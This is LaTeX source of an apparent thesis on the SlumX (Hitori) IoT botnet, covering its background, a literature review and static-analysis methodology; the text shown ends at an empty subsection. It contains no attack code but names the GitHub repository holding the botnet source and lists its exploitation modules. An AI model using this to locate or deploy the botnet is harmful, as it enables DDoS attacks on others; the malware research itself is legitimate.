\documentclass[12pt,letterpaper]{report}

% paquetes basicos
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{geometry}
\usepackage{graphicx}
\usepackage{fancyhdr}
\usepackage{setspace}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{cite}
\usepackage{url}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}
\usepackage{array}
\usepackage{booktabs}
\usepackage{multirow}
\usepackage{longtable}
\usepackage{tikz}
\usepackage{pgfplots}
\usetikzlibrary{arrows.meta, positioning, shapes.geometric, fit, calc}
\pgfplotsset{compat=1.17}

% reducir espacio capitulos
\makeatletter
\renewcommand*\@makechapterhead[1]{%
  {\parindent \z@ \raggedright \normalfont
    \ifnum \c@secnumdepth >\m@ne
        \huge\bfseries \@chapapp\space \thechapter
        \par\nobreak
        \vskip 10\p@
    \fi
    \interlinepenalty\@M
    \Huge \bfseries #1\par\nobreak
    \vskip 20\p@
  }}
\makeatother

% geometria pagina
\geometry{
    top=2.5cm,
    bottom=2.5cm,
    left=3cm,
    right=2.5cm
}

% espaciado lineas
\onehalfspacing

% configuracion codigo
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

% encabezado y pie
\pagestyle{fancy}
\fancyhf{}
\rhead{\thepage}
\renewcommand{\headrulewidth}{0pt}
\setlength{\headheight}{15pt}

% informacion portada
\title{Analysis of IoT Botnet Structure and Behavior: A Study Based on the Hitori (SlumX) Variant}
\author{Ariel Matias Melo Pazmiño}
\date{\today}

\begin{document}

% portada
\begin{titlepage}
    \centering
    \vspace*{2cm}
    
    {\LARGE \textbf{UNIVERSIDAD INTERNACIONAL DEL ECUADOR}}\\[0.5cm]
    {\large FACULTAD DE CIENCIAS TECNICAS}\\[0.5cm]
    {\large ESCUELA DE CIENCIAS DE LA COMPUTACIÓN}\\[2cm]
    
    {\huge \textbf{Analysis of IoT Botnet Structure and Behavior: A Study Based on the Hitori (SlumX) Variant}}\\[2cm]

    \textbf{Author:} Ariel Matias Melo Pazmiño\\[0.5cm]

    \vfill
    
    {\large \textbf{Quito, Ecuador}}\\
    {\large \today}
    
\end{titlepage}
% reiniciar numeracion con numeros normales
\pagenumbering{arabic}
\setcounter{page}{1}

% abstract
\chapter*{Abstract}
\addcontentsline{toc}{chapter}{Abstract}

Through its Thorough Technical Analysis of SlumX (Hitori variant) Botnet, this Research Elaborates on the Botnet Architecture, Attack Vectors, Attack Patterns Used in IoT Malware via Static Code Analysis of an Open Source Code Repository. The Analysis unmasked a sophisticated and complex Command and Control Mechanism, numerous DDoS Attack Methods, and the advanced Evasion Techniques Unique to Internet of Things Devices. In all, the Main Findings are the Identification of Multi-Architecture Support for MIPS, ARM, X86, as well as Other Embedded Systems; implementation of several Flooding Methods Including UDP-Based, TCP-Based and HTTP-Based Attacks; inclusion of Device Scanning and Attack Capabilities; and utilization of Threat Modelling, Control Flow Analysis and Systematic Code Review as part of the Research Methodology to gain an understanding of this Botnet's Operational Framework and Attack Infrastructure. The Findings indicate that the Future of Mirai-Driven Botnets is moving Toward More and More Sophisticated Attack Infrastructures with Increased Persistence Mechanism. Furthermore, this Research Offers Additionally Supporting Evidence to the Body of Cyber Security Research Specifically in the Form of, Yet Not Limited to, Old Models of IoT Botnets and Their Associated Mitigation Options.

\textbf{Keywords:} IoT Botnets, Hitori, Mirai, DDoS Attacks, Malware Analysis, Cybersecurity, Command and Control, Network Security

% resumen
\chapter*{Resumen}
\addcontentsline{toc}{chapter}{Resumen}

La investigación conlleva un análisis técnico, en base a la variante Hitori de la botnet, en concreto de su implementación conocida como SlumX. En este trabajo se pone a prueba arquitecturas, vectores de ataque y comportamientos de este malware orientado a IoT a través de la técnica de análisis estático del código del repositorio conductores open-source. El análisis expone determinados mecanismos de peculiares de los comandos y controles, múltiples metodologías de ataques DDoS y técnicas avanzadas de evasión destinadas a su implementación en dispositivos IoT. Los hallazgos principales son la correspondiente identificacion de soporte multi-arquitectura que se extiende a MIPS, ARM, x86 y demás sistemas embebidos, implementación de técnicas de inundación que abarcan ataques basados en UDP, TCP y HTTP, e integración de capacidades de escaneo asimismo como de explotación de dispositivos. La metodología de la investigación abarca revisión sistemática del código, análisis de flujo de control y modelado de amenazas para la comprensión del marco operacional de la botnet. Los resultados de la investigación demuestran la transición de las botnets que se originaron de la Mirai hacia infraestructuras de ataque más complejas junto a mecanismos de persistencia refinados. Este trabajo queda como una contribución a la investigación en ciber-seguridad abordando aspectos técnicos de gran calidad relacionados con arquitecturas modernas de botnets IoT y propone determinadas estrategias de mitigación para defenderse ante tales amenazas.

\textbf{Palabras clave:} Botnets IoT, Hitori, Mirai, Ataques DDoS, Análisis de Malware, Ciberseguridad, Comando y Control, Seguridad de Redes

% indice
\tableofcontents

% lista tablas
\listoftables

% lista figuras
\listoffigures

% capitulo 1
\chapter{Introduction}

\section{Background}

The Internet of Things (IoT) has changed the cyber security domain, allowing for the connection of billions of devices to each other with minimal security protections. As such, this new technology has vastly expanded the attack surface for attackers and allowed for the creation of large botnets. The Mirai botnet was first detected in 2016 and represented a change in the threat landscape because it demonstrated the destructive capability of IoT devices being used in a malicious manner.\cite{antonakakis2017understanding}.

Over time, we have seen a number of variants of botnets that have come from the Mirai code. Each of these variants have included improvements and many ways to target different devices\cite{bertino2016botnets}. An example of one of the newer, more advanced versions of a botnet is the "Hitori" family of botnets. The Hitori family is unique in that it supports multiple architectures (both x86 and ARM) and includes advanced techniques for escaping detection ("evasion"). The Hitori implementation that we have studied in this article is indicative of the continuing development of malware that targets IoT devices and includes additional capabilities for persistence and diverse ways to launch attacks

The large-scale destruction of IoT botnets presents unique difficulties for cybersecurity experts given their worldwide, dispersed architecture, the diversity of devices, and the inherent lack of security in many of these devices; thus, there is a need for new and innovative ways of detecting and countering IoT botnet threats, which traditional security measures do not sufficiently provide. To efficiently and effectively thwart these types of malicious activities, it is important to learn about the underlying technical specifications of IoT botnets\cite{bertino2016botnets}. A tremendous amount of research has been performed on IoT botnets; however, researchers still have very little understanding of the specific technical implementations and behavioural characteristics of the more sophisticated types of IoT botnets like the Hitori family, with specific focus on the SlumX version. The limited research on this family of IoT botnets highlights the importance of this research as it aims to shed light on how the lower-cost IoT botnets can create large-scale impact and deliver innovative security solutions.

\section{Problem Statement}

While extensive research has been conducted on IoT Botnets; there still exists a major gap in knowledge regarding the particular types of technology used to develop an IoT botnet and also regarding how to identify advanced Mirai variants by examining their behaviour. Even though the Hitori family (more specifically its SlumX variant) has a highly sophisticated design, it has not yet received much academic research. There is potential for this type of system to cause disruption on a global scale and, therefore, this dissertation will attempt to answer the following questions:

\begin{itemize}
    \item What are the core architectural components of the SlumX botnet implementation?
    \item How does the command and control infrastructure operate to manage infected devices?
    \item What attack vectors and methodologies are implemented within the codebase?
    \item How do the evasion and persistence mechanisms differ from previous Mirai variants?
    \item What defensive measures can be derived from understanding this implementation?
\end{itemize}

Because there is not yet an extensive technical study of the Hitori(SlumX) botnet's variant, the cybersecurity field lacks the ability to change its tactics against it as well as keep track of the turning point of an evolving cyber threat to IoT Security

\section{Objectives}

\subsection{General Objective}

The cybersecurity community will conduct an in-depth technical study of the Hitori(SlumX) botnet variant that includes an examination of its components, tactics employed, and operational characteristics to better understand the threat posed by modern-day IoT botnets.

\subsection{Specific Objectives}

\begin{enumerate}
    \item Investigate the underlying code architecture of the SlumX platform to determine the major functions it serves as well as its operation.
    \item Review the communication method between Command and Control (C\&C) server and SlumX and design of the server. 
    \item Identify and assess the types of techniques for performing attacks against a target device (DDoS and delivery method). 
    \item Evaluate how SlumX supports more than one architecture and also have a cross-platform ability to work across different operating systems.
    \item Determine what form of evasion techniques and anti-analysis are incorporated into the SlumX source code
    \item Research and write about the capability of scanning and exploiting IoT devices. 
    \item Recommend possible methods to mitigate the risks associated with the vulnerabilities and patterns of behavior you discover
\end{enumerate}

\section{Contributions}

The Cybersecurity Research created through this project has added significant value to the cyber security space. Specifically: 

\begin{itemize}
    \item \textbf{Technical Documentation:} The first large scale academic report published on the technical details, implementation and capabilities of the SlumX Botnet. This report is the most in-depth study to date into how SlumX was put together
    \item \textbf{Threat Intelligence:} Provides further clarity into the evolution of the Mirai family of variants and trends involved in the creation of IoT Botnets.
    \item \textbf{Attack Vector Analysis:} A comprehensive listing and categorisation of the numerous means through which the botnet was able to attack. 
    \item \textbf{Defensive Insights:} Highlights key Indicators of Compromise (IOCs) and Behaviors that Systems can leverage to detect the SlumX Botnet. 
    \item \textbf{Research Foundation:} A benchmark for the entire Cyber Security and Advanced Threat Research community for future investigations involving both IoT Botnets and Means of Mitigating Their Effects. 
\end{itemize}

\section{Document Organization}

This document is organized to give you a full overview of the SlumX botnet analysis:

Chapter 2 will define your theoretical framework, such as basic principles of IoT botnets, command-and-control (C2) systems, methods of DDoS attacks, and major events leading to the creation of the Mirai botnet and its multiple variations.

Chapter 3 offers the current state of research concerning IoT botnets, including a review of all previous research related to Mirai and other similar IoT botnets, as well as the methods used to identify IoT botnets that are in use today.

Chapter 4 contains information about the methodology used for this research, including description of the analysis method, tools that were used to perform static analysis of the examples in this research, and how threat modeling was performed.

Chapter 5 offers the analysis and discussions from the analysis of code, documenting the processes involved in creating architectural documentation, and gathering and performing a threat assessment.

Chapter 6 offers the major conclusions drawn from the research performed on this IoT botnet, as well as the limitations of the study, and suggestions for further research on IoT botnet analysis and mitigation.

% capitulo 2
\chapter{Theoretical Framework}

\section{Internet of Things (IoT) Security Fundamentals}

The Internet of Things (IoT) refers to the many connected (and therefore, interrelated) devices used for generating, processing and transmitting information between networks and systems. The information security aspect of IoT is complicated by many factors, including (but not limited to): an increasingly large percentage of IoT devices have limited resources available for implementing security; there are no standard-type security protocols that apply across all brands of devices; many IoT devices do not receive regular security updates; and many users never change the default credentials on their devices.


Security weaknesses in IoT devices are typically found at each level of an IoT device: the hardware has weak implementations of encryption and/or has debugging interfaces that can be accessed; the firmware contains vulnerabilities that are not fixed through software updates as they become available, and insecure coding practices may be present; the communication method for transmitting data often uses unencrypted transmission and authenticating users may involve weak authentication protocols; the application in use may not provide strong access control mechanisms and does not provide sufficient input validation.\cite{mahmoud2015iot, pa2015internet}.

The security challenges are compounded by the heterogeneous nature of IoT deployments, where devices from different manufacturers with varying security capabilities coexist in the same network environment. This diversity creates attack surfaces that can be exploited by sophisticated malware designed to target multiple device types and architectures.

\section{Botnet Architecture and Command and Control Systems}

Botnets have become one of the biggest threats in today’s cyber security landscape. A botnet is a network of infected computers or devices controlled remotely by a cybercriminal. The design of botnets is continually evolving and today, modern botnets contain highly sophisticated Command and Control (C\&C) systems that allow for constant communication with the infected machines.

Historically, botnets have had a centralised architecture – in this method, the compromised machines (or "bots" or "zombies") communicate directly with C\&C servers. This architecture is often effective for distributing commands, but it is vulnerable because there are single points of failure and all corrupt devices rely on one centralised system to receive commands. More advanced botnets today have moved to more resilient architectures, like peer-to-peer networks, Domain Generation Algorithms (DGA), and multi-tiered architectures.

The C\&C infrastructure provides for several of the critical functions of the botnet - distributing commands for conducting attacks, exfiltrating data, maintaining the health and management of the botnet, and co-ordinating attacks across multiple botnets\cite{silva2013botnets}.

Modern IoT botnets have used these same fundamental concepts of architectural design to incorporate the differences found in IoT devices when creating their bots. They have developed lightweight communication protocols for these devices, designed multi-architecture payloads that can target various types of devices and created device-specific exploitation techniques for persistence \cite{gartner2023iot, kuzin2018analysis}.

\section{DDoS Attack Methodologies and Vectors}

The Distributed Denial of Service Attack (DDoS) is a major way of making money off Botnets here as IoT devices take over the processing power and bandwidth from other users’ connections. These attacks are effective because of the sheer number of available devices and their ability to spread across many different locations in order to create a volume of traffic that is very difficult for targeted systems to mitigate against. 

There are three main types of DDoS attacks:

1. Volumetric attacks: where massive volumes of traffic flood into and consume all of the available bandwidth on a target connection.
2. Protocol attacks: where techniques are used to take advantage of the design weaknesses within certain network protocols to consume all resources associated with a server.
3. Application-layer attacks: where crafted fake requests are made against specific services and applications, which appear to be legitimate (as they are coming from the IP address of an infected system). 

Volumetric attacks include UDP Floods, ICMP Floods, Amplification Attacks where the exploited public service uses the ability to multiply the amount of attack traffic generated against the target. Protocol Attacks exploit issues associated with how a TCP connection is set up/established as well as bugs related to fragmented packet processing used through Routing Protocols (RIP, BGP). Application-Layer Attacks can include targeted attacks made against HTTP Services and DNS Services along with any applications that may include specifically crafted requests intended to consume CPU time through consuming server resources. \cite{zargar2013survey}.

Novice attack avenues have been provided by IoT Botnets and use the unique abilities and restrictions of connected devices to create New Attack Vectors for cybercriminals. This includes Cyber Attacks using the Sensors of an IoT Device to obtain data concerning the intended target, Cyber Attacks using a specific protocol or service unique to an IoT Device, and Cyber Attacks that remain effective against an intended target by maintaining continued pressure due to the fact many IoT Devices are always On.

\section{Mirai Botnet Family and Evolutionary Patterns}

The release of the Mirai botnet in 2016 revolutionized how the world views IoT Security. It was the first time an IoT device could be used to conduct large-scale attacks and demonstrated that many other IoT devices were vulnerable to similar attacks. In its initial release, Mirai was aimed at consumer-grade devices that had default passwords or weak passwords, and these devices were accessed using brute force. After accessing the device, Mirai would download and execute malicious software onto the device.


The architecture of Mirai created several patterns that have been continued and enhanced in newer variants of Mirai and other bots. A common pattern is the use of a "scanning" module to find potential targets, a "loader" component that delivers and executes the payload, and a "bot" component that maintains contact with Command and Control (C\&C) servers and executes attack commands.\cite{antonakakis2017understanding}.

After the public release of the Mirai Source Code, many different versions of the virus have been created that have more advanced functions. These newer versions include new types of techniques to avoid detection from authorities, an even larger number of targets and attack options than earlier versions, and improved ways to maintain themselves on infected devices. The development of these newer strains of the Mirai Virus has been characterized by a continuing process of sophistication and specialization, with strains that are designed to target only a specific type of device or geographical area.\cite{marzano2018evolution, herwig2019measurement}.

The Hitori family is representing a major development in this family tree with its ability to support multiple architectures as well as have advanced evasion techniques and improve upon existing attack methods. Understanding these developments and patterns will help predict how future IoT botnet threats will evolve, allowing for the formulation of proactive defence strategies.

\section{Malware Analysis Techniques and Methodologies}

The unique characteristics of embedded systems and their limitations make it critical for analysts of IoT malware to create techniques that offer an understanding of how it behaves as well as what it does. Two general techniques for conducting analysis on IoT malware include static and dynamic.

Static Analysis is when the analyst views the malware code without it being executed, and will perform an analysis of the malware by identifying various functions, control flows, data structures, and other embedded strings within the code. Through Static Analysis, the analyst determines how the malware works and what actions will occur when run on a target system.

The Static Analysis technique will allow the analyst to use disassembly to determine the overall structure of the malware program, string analyses to identify hardcoded values, such as encryption keys and domain names, control flow analyses to develop maps of how the malware executes and to utilize cross-reference analyses to understand how the malware functions interact and how data is used. As such, Static Analysis is particularly useful for IoT malware since it does not require execution environments for several hardware architectures.

Dynamic Analysis is when the analyst executes the malware in a controlled environment to observe the decreased overall behavior of the malware on the system, i.e., the malware's ability to communicate over the network, change the operating system, and interact with external services. Because of the complex nature of IoT malware, there may be difficulties in managing to execute or virtualize multiple hardware platforms as well as the necessity to provide an isolated environment to observe safely the communications between the C\&C servers.

The overall understanding of malware behavior comes from Hybrid analysis methods combining Static \& Dynamic approaches. As most Modern malware will contain some form of anti-analysis techniques, they will use runtime packing or have environmental dependent behaviours that are only uncovered in certain conditions.

Additionally, an analyst's methodology must reflect the various aspects of IoT malware such as Cross-Platform Compilation, Embedded Credentials, Exploitation Techniques specific to devices, and Resource-Constrained Communication Protocols.\cite{mansfield2016ddos}. Modern malware analysis techniques must evolve to address the unique challenges posed by IoT-focused threats \cite{meidan2018n}.

\begin{figure}[H]
\centering

\begin{tikzpicture}[scale=0.9]
\begin{axis}[
    title={Global IoT Architecture Distribution},
    xlabel={Architecture Type},
    ylabel={Deployed Devices (Millions)},
    symbolic x coords={MIPS,ARM,x86,PowerPC,SPARC,M68k,SH4},
    xtick=data,
    ybar,
    bar width=20pt,
    legend pos=north east,
    grid=major,
    width=14cm,
    height=9cm,
    x tick label style={rotate=45,anchor=east}
]
\addplot coordinates {(MIPS,45) (ARM,120) (x86,25) (PowerPC,8) (SPARC,3) (M68k,2) (SH4,5)};
\legend{Industry Estimates}
\end{axis}
\end{tikzpicture}
\caption{Global IoT Device Architecture Distribution (Industry Estimates \cite{statista2024iot})}
\label{fig:iot_architecture_distribution}
\end{figure}

The diversity of IoT architectures, as illustrated in Figure \ref{fig:iot_architecture_distribution}, presents unique challenges for both security implementation and threat mitigation. ARM-based devices dominate the market due to their power efficiency, while MIPS architectures remain prevalent in networking equipment. This heterogeneous landscape complicates standardized security approaches \cite{statista2024iot, vishwakarma2023targeted}.

\section{Network Security in IoT Environments}

Due to the heterogeneity of IoT devices and the limitations imposed by existing security frameworks on these devices, network security for IoT environments is challenging. The distributed architecture of IoT networks has potentially many points of failure; therefore, the use of adaptive security techniques that can accommodate different communication protocols and device capabilities is essential for securing IoT networks.

The additional complication is that many IoT devices are limited by their resources, and as a result, many devices cannot implement comprehensive security solutions. Existing cryptographic techniques can be computationally intensive for low-power devices, thus the need for lightweight security protocols that can be used with IoT devices.

% capitulo 3
\chapter{State of the Art}

\section{IoT Botnet Research Landscape}

In 2016, the emergence of Mirai gave way to a substantial amount of academic and industrial research about IoT botnets. While earlier research primarily focused on the operational aspects and impacts of mass compromise of IoT devices, later studies looked at various detection methodologies, mitigation techniques, and evolution of IoT botnet attack techniques.

Kolias et al.'s study provided one of the earliest and most comprehensive analyses of the original Mirai botnet, including an analysis of its scanning algorithm, target selection criteria, and attack methods.\cite{kolias2017ddos}. The foundational principles of how IoT botnets function, as well as the unique difficulties posed by the sheer volume and diversity of IoT deployments, were established through their research.

The focus of more recent research has moved from using basic methods of analysis to employing more advanced analyses including machine learning methods used for detection, behavioral analysis for attribution, and monitoring based on networks for early warning systems. \cite{wang2022iot, sivanathan2020classifying}.The Economics of IoT Botnets Research has also focused on the economic aspects (cost-benefit) of each type of IoT botnet regarding how they are created and deployed.

The research has also identified several challenges that need to be addressed: the rate at which IoT botnet technology evolves faster than the development of detection tools, the lack of (representative) data to conduct analysis of IoT malware, the complexity involved in developing realistic test environments (across multiple IoT device types) and the need for cooperative cross-sector response to a distributed threat. Comprehensive analysis of current and emerging Threats has shown the rapidly evolving technological sophistication of each type of botnet.\cite{almousa2023evolution}.

\section{Mirai Variant Analysis and Classification}

To gain insight into the Mirai variants’ evolutionary development, as well as to identify their various capabilities - Security research has identified a large number of Mirai variants, with each variant implementing new features and targeting new vectors.

Key significant Mirai variants include Okiru, which added functionality for cryptocurrency mining and enhanced evasion techniques; Masuta, which utilized new exploit techniques and enhanced persistence mechanisms; and Satori which targeted certain vulnerabilities prevalent in popular IoT devices and leveraged worm-like propagation.

The categorization of Mirai variants is generally based upon several dimensions including target architecture support, techniques used for exploitation; Command and Control (C2) infrastructure design; the types of attack vectors utilized, and sophistication of evasion.\cite{kolias2017ddos}. A multidimensional analysis enables researchers to understand how each variant relates to other variants and how the future development trends of the viruses will look.

In addition, variant threat intelligence provided by the security industry plays a large part in helping researchers understand the capabilities of newly discovered variants; however, many researchers within academia take longer to publish their research compared to those working within the security industry. This occurs because researchers must thoroughly analyse variants before they are able to publish their findings.

\section{Detection and Mitigation Technologies}

It has been difficult to develop effective techniques for detecting and mitigating IoT botnet in view of the many different and limited resource environments of IoT's although the capabilities of IoT's have also changed. Generally speaking, conventional network defence methods don't account for the unique characteristics of IoT traffic streams, device behaviours or the methods of obtaining IoT's.


The network type of detection strategy emphasises the identification of unusual traffic patterns along with communications between control and attack signatures. \cite{silva2013botnets}. Machine learning techniques have shown promise in detecting IoT botnet activity through behavioral analysis, traffic flow analysis, and device profiling \cite{meidan2018n, nisioti2021honeypots}. Deep learning approaches have demonstrated particular effectiveness in identifying complex attack patterns and behavioral anomalies \cite{roopak2019deep}. Research on honeypots and deception technologies has also contributed to understanding botnet reconnaissance patterns \cite{parmisano2022mozi}. However, these approaches face challenges with high false positive rates and the need for extensive training datasets.

Detecting malicious activities on IoT devices using host-based methods will be difficult due to their low computer power compared with other types of devices (e.g., PCs) along with the absence of a common framework when it comes to protecting each manufacturer’s devices. Several research opportunities exist for creating a lightweight agent to perform this detection and respond automatically in resource-constrained environments. However, the adoption rate of these agents has been low.

Mitigation strategies have progressed to include filtering the network, isolating devices, applying required updates, and providing simultaneous incident response capabilities. However, the degree of success for each of these mitigations will differ greatly due to variances in each environment that exists as well as to the unique characteristics of the actual target IoT.

\section{Industry Response and Standards Development}

The response of the Cybersecurity Sector to the IoT Botnet threat has involved several initiatives:

1. Development of new standards to guide the development of IoT security technologies. A few examples of those new standards include the NIST Cybersecurity Framework Adaptation (for IoT environments), Industrial Internet Consortium Security Recommendations and Industry-Specific Standards for Critical Infrastructure Protection.

While there are many standards organizations working to establish new IoT Security Standards, it appears that adoption of those standards is inconsistent across various sectors AND Manufacturers.
2. The development of an effective method to facilitate sharing of Cyber Threat Intelligence between Companies has become an important element of the Industry's response. Cyber Threat Intelligence Sharing Organizations have formed (eg Cyber Threat Alliance, CERTs) and offer various Cyber Threat Sharing Networks, such as sharing Indicators of Compromise (IOCs), Attack Signatures and Mitigation Strategies. However, the development of actionable Cyber Threat Intelligence that can be quickly disseminated and implemented across the numerous and varied IoT environments presents an ongoing challenge for the industry.
3. There has been considerable investment from within the industry to develop Automated Cyber Response Systems. \cite{spring2024defensive}. This is achieved through improvements in the algorithms that allow for the detection of IoT botnets more efficiently. These new algorithms have demonstrated their effectiveness in actual field experience \cite{alghazzawi2024efficient}. However, the effectiveness of automated systems in diverse IoT environments remains an active area of research and development.

\section{Research Gaps and Future Directions}

While significant advances have been made in the area of research related to IoT botnets, a number of key areas continue to hinder the ability of existing approaches to be successful. For example, one major limitation when trying to analyse IoT malware is the absence of large enough datasets that contain examples of IoT Malware. The majority of datasets available today focus on traditional computing systems; they may not accurately reflect the variety of devices making up the IoT world and their communication characteristics.

Another significant gap in knowledge is the attribution problem emerging from IoT botnet campaigns. Research into methods for identifying operators and infrastructure associated with these attacks continues to be limited. This has a negative impact on Law Enforcement and limits their ability to implement focused Mitigation Strategies toward this threat.

Several recommended avenues for further research include the development of more advanced detection methods based on IoT device behavioural modelling. Future Research into developing a standardised Framework for IoT Security Assessment. Research into the economic incentives driving the creation of botnets. The study of cooperative defence, whether between technology companies or between organisations that use IoT devices.

The incorporation of emerging technologies, like Blockchain for Device Authentication or Edge Computing for Distributed Security Processing would also represent promising avenues for further research. However, much more research will need to be done not only to incorporate these new technologies into the IoT environment, but also how they can be practically implemented in low resource environments.

% capitulo 4
\chapter{Methodology}

\section{Research Approach}

A qualitative analysis of the SlumX botnet's source code, as obtained from the SlumX GitHub repository, was conducted using a qualitative research-design methodology following best practices in malware analysis. This research-design methodology has been tailored specifically for IoT threat analysis.

The framework for analysis consists of systematic review of the source code, documentation of the architectural design of the botnet and its components' relationships, and threat modelling.

There are several major stages to the research process: reconnaissance and code repository analysis, examination of the repository, documentation of the repository's contents, mapping of the architecture of the botnet, identification and classification of attack vectors, and assessment of the threat posed and the overall impact of the virus.

Given the advantage of having access to the complete source code, static analysis was used as the primary methodology, rather than the dynamic analysis that would require the setting up of multiple dynamic-analysis environments to assess the full range of potential consequences caused by the botnet's code on various device architectures.

A thorough static analysis of all potential paths through the code, all functionality provided by the code, and all functionality provided by the code without the limitations of environments surrounding it, was enabled by static analysis.

\section{Data Collection and Source Material}

The source material for this analysis is the full source code repository offered by GitHub at the repository mat1520/slumpx. The repository contains an implementation of SlumX, including the bot client code, the command and control server, the build scripts, and additional tools related to the botnet.

The repository structure includes several key components:
\begin{itemize}
    \item \texttt{bot.c} - Main bot client implementation (1,746 lines)
    \item \texttt{server.c} - Command and control server code (845 lines)
    \item \texttt{build.py} - Automated build and deployment script
    \item \texttt{cc.py} - Cross-compilation management tool (199 lines)
    \item \texttt{scankill.c} - Device scanning and exploitation module
    \item \texttt{loader/} - Payload delivery system components
    \item \texttt{Netto.py} - Netis device exploitation tool
\end{itemize}

Further clarification regarding the planned deployment and operation of the Botnet could be determined from the additional context provided by the comments that were embedded into the source code, the configuration files for the bots, and the build scripts used to create them. In addition, the analysis included information regarding hard-coded IP addresses, default usernames and passwords, and specifications regarding where the bot would direct its attacks.

\section{Code Analysis Framework}

The SlumX implementation was subject to thorough analysis by the use of a multi-layered code-analysis framework that provided a detailed, systematic evaluation of each component of SlumX. The framework consisted of a number of different analytical dimensions that were used to thoroughly capture all aspects of the functionality of the malware.

\subsection{Structural Analysis}

In conducting the structural analysis of the Botnet, it was necessary to take a look at the general architecture of the Botnet and how its various components interacted with one another (code interdependencies). To accomplish this, we created architectural maps that illustrated the relationships between source files, identified important data structures and their intended use, created function hierarchies, document function-to-function calls, reviewed the build process and how dependencies were maintained.

The structural analysis began with mapping out the overall architecture of the Botnet and determining how each of the various components interacted with one another and contributed to overall functionality. This was followed by an in-depth examination of individual functions, which allowed us to gain a deeper understanding of the specific function's capabilities and implementation.


\subsection{Analysis of Programmed Behavior Logic}

The programmed behavior analysis looked at the ways the botnet was built using the operational methods of attack and how they were implemented in the source code. The analysis was static as it was concerned with dissecting the way the botnet works using the programmed logic, attack vectors, and flow of commands. \textbf{Important Note:} The analysis included only a static analysis approach via code examination and not an observation of runtime behavior or results based on tests.

The analysis centred on the methods in which the malware can support multiple hardware architectures and on how those methods enable the chosen behaviour of the malware to be adapted to the specific target platform. A key factor examined was the use or omission of compilation flags; when present, the overall use of flags on the compiled code; the locations within the architecture's code that were specifically compiler-flag based; and how the malware's payload is delivered.

\subsection{Security Analysis}

The focus of security analysis was to determine vulnerabilities, paths of attack and the effect of how the implementation would have on security. Evaluation of the strength of communication protocols were performed, identification of a possible command and control weakness, a measure of how effective the evasion techniques were, and identification of indicators of compromise were done during the analysis.

Also included in the analysis of how the malware would try to get around detection by maintaining persistence on the devices that it infected. Techniques were evaluated for process hiding, manipulation of file systems and obfuscation of network communications.

\section{Analytical Tools and Techniques}

The analysis employed several complementary techniques to ensure comprehensive coverage of the codebase and accurate understanding of its functionality.

\subsection{Static Code Analysis}

Well-developed static code analysis was the foundation of this research methodology, providing a thorough examination of the complete collection of source files through an evaluation of the files themselves and not of their execution. The research methodology implemented an in-depth code review (line-by-line), utilizing analytical tools to identify coding patterns and vulnerabilities based on function implementations. Additionally, through the use of code review methodologies, flow analysis (data flow and control flow), and pattern recognition, an understanding of the coding practices and associated vulnerabilities was developed based upon the analysis of the corresponding code execution.

Static code analysis focused on identifying all hardcoded values, all types of network communication methods (protocols), the function and implementation of cryptographic methodologies, and all methods of interaction with the system. Static analysis additionally focused on identifying cross platform compatible coding and architecture specific implementation for code execution.

\subsection{String and Configuration Analysis}

The information regarding the common fingerprints of the botnet that were obtained during the systematic analysis of embedded strings and configuration data have allowed for an understanding of how bots operate, as well as, how they are targeted. Information extracted from exploited hardcoded network addresses, a list of default credentials and the methods used for authentication, a list of documents on what types of target information are being sought via attack, as well as an examination of user agent strings to obtain additional information about the way each bot is designed, has been analyzed.

Additionally, the configuration analysis also includes a review of build scripts and deployment tools for better understanding of how each bot is adapted to each environment, as well as, each particular target set.

\subsection{Cross-Reference and Dependency Analysis}

